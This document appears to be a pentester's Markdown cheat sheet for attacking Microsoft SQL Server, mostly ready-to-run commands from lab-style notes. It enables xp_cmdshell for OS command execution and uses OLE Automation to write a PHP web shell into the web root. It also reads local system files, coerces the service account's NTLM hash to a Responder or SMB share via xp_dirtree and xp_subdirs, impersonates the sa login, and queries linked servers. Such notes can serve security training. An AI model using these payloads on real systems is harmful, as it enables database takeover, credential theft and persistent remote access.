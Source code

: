
Supports 2 [Auth Mechanisms](https://learn.microsoft.com/en-us/sql/connect/ado-net/sql/authentication-sql-server?view=sql-server-ver16)

|**Authentication Type**|**Description**|
|---|---|
|`Windows authentication mode`|This is the default, often referred to as `integrated` security because the SQL Server security model is tightly integrated with Windows/Active Directory. Specific Windows user and group accounts are trusted to log in to SQL Server. Windows users who have already been authenticated do not have to present additional credentials.|
|`Mixed mode`|Mixed mode supports authentication by Windows/Active Directory accounts and SQL Server. Username and password pairs are maintained within SQL Server.|

## Connect 

```cmd
sqlcmd -S SRVMSSQL -U julio -P 'MyPassword!' -y 30 -Y 30
```

```shell
sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h
```

```shell
mssqlclient.py -p 1433 julio@10.129.203.7 
```
Add -windows-auth or .// if local account
## MSSQL default system schemas/databases:

- `master` - keeps the information for an instance of SQL Server.
- `msdb` - used by SQL Server Agent.
- `model` - a template database copied for each new database.
- `resource` - a read-only database that keeps system objects visible in every database on the server in sys schema.
- `tempdb` - keeps temporary objects for SQL queries.

## Using MSSQL
show databases 
`SELECT name FROM master.dbo.sysdatabases`
Select DB 
`USE htbusers`
Show Tables
`SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES`
Show Entries 
`SELECT * FROM users`

## Execute commands 
```mssql
xp_cmdshell 'whoami'

Go
```

#### Enable xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

## Write to Files 
Need to enable [Ole Automation Procedures](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option?view=sql-server-ver16)
```mssql
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```
## Create a file 
```mssql
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
## Read Local files 
```mssql
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```

## Capturing MSSQL Service hash

Start [Responder](https://github.com/lgandx/Responder)/ [Impacket-smbserver](https://github.com/fortra/impacket)
```shell
sudo responder -I tun0
```
```shell
sudo impacket-smbserver share ./ -smb2support
```
#### XP_DIRTREE Hash
```mssql
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

#### XP_SUBDIRS Hash
```mssql
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
Add -windows-auth or .// if local account?
## Impersonate Users 
Special permission named Impersonate. 
### Identify users you can impersonate 
```mssql
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
### Verify Current user and role  
```mssql
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
### Impersonate a user 
```mssql
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
#### Note
It's recommended to run `EXECUTE AS LOGIN` within the master DB, because all users, by default, have access to that database. If a user you are trying to impersonate doesn't have access to the DB you are connecting to it will present an error. Try to move to the master DB using `USE master`.

## Communicate with Other Databases 
[Linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16)

Allow DB engines to execute a Transact-SQL statement. 
Search 
```mssql
1> SELECT srvname, isremote FROM sysservers
2> GO
```
Identify User used for the connection
```mssql
1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO
```

